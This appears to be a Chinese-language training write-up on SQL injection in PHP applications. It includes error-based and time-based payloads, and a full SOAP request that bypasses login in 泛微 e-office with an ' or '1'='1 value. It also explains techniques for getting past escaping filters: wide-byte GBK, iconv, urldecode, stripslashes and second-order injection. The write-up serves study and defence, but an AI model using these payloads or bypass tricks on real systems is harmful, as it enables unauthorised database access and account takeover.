

前言
之前内部的一个分享，对SQL注入漏洞的一些总结。下面有些例子都在我本地的环境中，但是有对应的乌云编号，谷歌可以搜到。
什么是SQL注入漏洞
程序没有有效过滤用户的输入，使攻击者成功的向服务器提交恶意的SQL查询代码，程序在接收后错误的将攻击者的输入作为查询语句的一部分执行，导致原始的查询逻辑被改变，额外的执行了攻击者精心构造的恶意代码。
开发者在编写操作数据库代码时，直接将外部可控的参数拼接到SQL语句中，没有经过过滤或者过滤不全就直接放入到数据库中执行。
1 | $id = $_GET['id']; |
没有任何过滤的注入
select
insert
1
insert into admin(`name`, `pass`)values('Olivia' or updatexml(1,concat(0x7e,(version())),0) or'', '123455');
update
1
update admin set pass='123' or updatexml(1,concat(0x7e,(version())),0) or ''WHERE uid=2;
delete
1
2delete from admin where uid=2 or updatexml(1,concat(0x7e,(version())),0) or'';
delete from admin where uid=9 and sleep(5);
一些防护措施
魔术引号 //GPC防护 –> 5.4之后取消了
- 当打开时，所有的
'（单引号），"（双引号），\（反斜线）和NULL字符都会被自动加上一个反斜线进行转义。这和 addslashes()作用完全相同。 - 一共有三个魔术引号指令
- magic_quotes_gpc 影响到 HTTP 请求数据（GET，POST 和 COOKIE）。不能在运行时改变。在 PHP 中默认值为 on。
- magic_quotes_runtime 如果打开的话，大部份从外部来源取得数据并返回的函数，包括从数据库和文本文件，所返回的数据都会被反斜线转义。该选项可在运行的时改变，在 PHP 中的默认值为 off。
- magic_quotes_sybase 如果打开的话，将会使用单引号对单引号进行转义而非反斜线。此选项会完全覆盖 magic_quotes_gpc。如果同时打开两个选项的话，单引号将会被转义成 ‘’。而双引号、反斜线 和 NULL 字符将不会进行转义。
- 为什么不用魔术引号
- 可移植性 编程时认为其打开或并闭都会影响到移植性。可以用 get_magic_quotes_gpc() 来检查是否打开，并据此编程。
- 性能 由于并不是每一段被转义的数据都要插入数据库的，如果所有进入 PHP 的数据都被转义的话，那么会对程序的执行效率产生一定的影响。在运行时调用转义函数（如 addslashes()）更有效率。 尽管 php.ini-dist 默认打开了这个选项，但是 php.ini-recommended 默认却关闭了它，主要是出于性能的考虑。
- 不便 由于不是所有数据都需要转义，在不需要转义的地方看到转义的数据就很烦。比如说通过表单发送邮件，结果看到一大堆的 \’。针对这个问题，可以使用 stripslashes() 函数处理。
- 当打开时，所有的
PHP自带的过滤函数
addslashes- 为了语句能够安全用于数据库查询需要在某些字符前加上了反斜线。这些字符是单引号（
'）、双引号（"）、反斜线（\）与NULL（NULL 字符）。
- 为了语句能够安全用于数据库查询需要在某些字符前加上了反斜线。这些字符是单引号（
mysql_[real]_escape_stringmysql_escape_string和mysql_real_escape_string都是对字符串进行过滤的，这些字符串是\x00，\n，\r，\，'，"，\x1a，两个函数唯一不一样的地方在于mysql_real_escape_string接受的是一个连接句柄并根据当前字符集转义字符串。[PHP 5.5.0 起已废弃]
开发人员写的安全过滤函数，如phpcms 的 safe_replace
正则过滤，如匹配ip的正则
1
\d+\.\d+\.\d+\.\d+\.
不受gpc影响的变量
$_SERVER变量: HTTP_X_FORWARDED_FOR,HTTP_HOST,HTTP_USER_AGENT,HTTP_REFERER,HTTP_CLIENT_IP，大多数web应用会记录访问者的ip及referer等信息。- 最常见的就是X-FOREARDED-FOR，在提取客户端的IP中使用，但是没有进行过滤验证，直接进入数据库中。
getenv()得到的变量（使用类似
$_SERVER变量）[区别:$getenv取得系统的环境变量，环境变量的格式为name=value。$_SERVER是服务器超级全局变量数组]1
$ip = getenv('HTTP_X_FORWARDED_FOR');
$HTTP_RAW_POST_DATA与PHP输入、输出流(主要应用与soap/xmlrpc/webpublish功能里)- 泛微 webservice
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
function UserLogin( $UserName, $Password )
{
$loginStatus = array( );
if ( trim( $UserName ) == "" )
{
$loginStatus['status'] = "false";
$loginStatus['infor'] = "用户名为空";
return $loginStatus;
}
$user = new user( );
if ( $user->CheckUserAccount( $UserName ) == false )
{
$loginStatus['status'] = "false";
$loginStatus['infor'] = "用户名不存在";
return $loginStatus;
}
$userID = $user->getUserIDByUserAccount( $UserName );
if ( $user->checkOldPassword( $userID, $Password ) == false )
{
$loginStatus['status'] = "false";
$loginStatus['infor'] = "密码错误";
return $loginStatus;
}
global $connection;
$query = "SELECT * from USER where USER_ACCOUNTS='{$UserName}'";
$cursor = exequery( $connection, $query );
$ROW = mysql_fetch_array( $cursor );
$timenow = time( );
$CUR_TIME = date( "Y-m-d H:i:s", $timenow );
$query = "update USER set LAST_VISIT_TIME='{$CUR_TIME}' where USER_ID='".$ROW['USER_ID']."'";
exequery( $connection, $query );
session_start( );
$_SESSION['LOGIN_USER_ID'] = $ROW['USER_ID'];
$_SESSION['LOGIN_PASSWORD'] = $ROW['PASSWORD'];
$_SESSION['LOGIN_POST_PRIV'] = $ROW['POST_PRIV'];
$_SESSION['LOGIN_USER_ACCOUNTS'] = $ROW['USER_ACCOUNTS'];
$_SESSION['LOGIN_USER_NAME'] = $ROW['USER_NAME'];
$_SESSION['LOGIN_USER_PRIV'] = $ROW['USER_PRIV'];
$_SESSION['LOGIN_DEPT_ID'] = $ROW['DEPT_ID'];
$loginStatus['status'] = "true";
$loginStatus['infor'] = $ROW['USER_ID'];
return $loginStatus;
}
include_once( "nusoap/lib/nusoap.php" );
include_once( "api/user.class.php" );
include_once( "inc/conn.php" );
$server = new soap_server( );
$server->soap_defencoding = "UTF-8";
$server->decode_utf8 = false;
$server->configureWSDL( "LoginServicewsdl", "urn:LoginServicewsdl" );
$server->wsdl->schemaTargetNamespace = "urn:LoginServicewsdl";
$server->wsdl->addComplexType( "loginStatus", "complexType", "struct", "all", "", array( "status" => array( "name" => "status", "type" => "xsd:string" ), "infor" => array( "name" => "infor", "type" => "xsd:string" ) ) );
$server->register( "UserLogin", array( "UserName" => "xsd:string", "Password" => "xsd:string" ), array( "return" => "tns:loginStatus" ), "urn:LoginServicewsdl", "urn:LoginServicewsdl#UserLogin", "rpc", "encoded", "UserLogin" );
$server->service( $HTTP_RAW_POST_DATA );
POST /webservice/login/login.wsdl.php HTTP/1.1
Content-Type: text/xml
SOAPAction: "urn:LoginServicewsdl#UserLogin"
Content-Length: 609
Referer: http://10.9.1.23:8082/webservice/eoffice.wsdl.php?wsdl
Host: 10.9.1.23:8082
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:tns="urn:LoginServicewsdl" xmlns:types="urn:LoginServicewsdl/encodedTypes" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<soap:Body soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<tns:UserLogin>
<UserName xsi:type="xsd:string">admin' or '1'='1</UserName>
<Password xsi:type="xsd:string">456</Password>
</tns:UserLogin>
</soap:Body>
</soap:Envelope>
数组第一维变量的key不受魔术引号的影响。
1
2
3
4
5
6
//key.php?aaaa'aaa[bb']=1
print_R($_GET);
Array ( [aaaa'aaa] => Array ( [bb\'] => 1 ) )$_FILES把上传的文件的文件名直接insert到数据库中了。
绕过全局过滤的几种情况
参数没有单双引号包裹起来，不受gpc影响。数字型注入，类型没有进行强制转换
1
2$id = $_GET['id'];
$sql = "select password from user where id =$id 1 union select user()";宽字节注入
被转义了
'->\'1. 想办法给`\`前面再加一个`\`（或单数个即可），变成`\\'`，这样`\`被转义了，`'`逃出了限制 2. 想办法把
\弄没有。宽字节注入是利用mysql的一个特性，mysql在使用GBK编码的时候，会认为两个字符是一个汉字（前一个ascii码要大于128，才到汉字的范围）。
数据库字符集的宽字节注入
1
2
3
4
5SET NAMES gbk
当这行代码在代码层被写入时，三个字符集（客户端、连接层、结果集）都是GBK编码。
character_set_client
character_set_connection
character_set_results1
2
3%df'===>(addslashes)====>%df%5c%27====>(GBK)====>運'
用户输入==>过滤函数==>代码层的$sql==>mysql处理请求==>mysql中的sql输入%df%27时首先经过上面提到的单引号转义变成了%df%5c%27（%5c是反斜杠\），之后在数据库查询前由于使用了GBK多字节编码，即在汉字编码范围内两个字节会被编码为一个汉字。然后MySQL服务器会对查询语句进行GBK编码即%df%5c转换成了汉字“運”，而单引号逃逸了出来，从而造成了注入漏洞。
防护
1
2
3
4
5SET character_set_connection=gbk, character_set_results=gbk,
character_set_client=binary
mysql接受到客户端的数据后，会认为他的编码是character_set_client，然后会将之将换成character_set_connection的编码，然后进入具体表和字段后，再转换成字段对应的编码。
然后，当查询结果产生后，会从表和字段的编码，转换成character_set_results编码，返回给客户端。所以，将character_set_client设置成binary，就不存在宽字节或多字节的问题了
转换字符集造成的宽字节注入
- iconv
1
2
3
4
5utf-8 -> gbk
iconv('utf-8', 'gbk',$id)
%e5%5c'====(addslashes)====>e55c5c5c27====(iconv)====>e98ca6\\'
e98ca6\\'实际是錦\\'1
2
3SET NAMES gbk
character_set_client=gbk
mysql_set_charset('gbk')
编码解码
urldecode当提交参数到webserver时，webserver会自动解码一次
1
id=1%2527 --->webserver --> id=1%27 --> urldecode--> 1'
rawurldecodebase64_decode
加密解密
- payload通过解密函数绕过了全局过滤函数，进入到sql语句中去了。
striplashes
在全局addslashes后，在后面的文件中又使用stripslashes去掉了转义符，然后可以闭合单引号了。
1
a' addslashes -> a\` stripslashes -> a'
二次攻击
数据库出来的变量没有进行过滤

传入一个\(两处可控输入)
substr截断
1
2
3
4
5$order_sn=substr($_GET['order_sn'], 0,1);
//提交 '
//魔术引号处理 \'
//substr \str_replace
使用str_replace把
'给置空，在全局转义开启的情况下(gpc开启或者addslashes等过滤函数过滤时)，将'变成了\'，此时将'置空，从而引入了\str_replace用户可控
易被忽视：
- offset limit order by 后面的注入
- 数组类型，全局防护只过滤了value，key未过滤带入了查询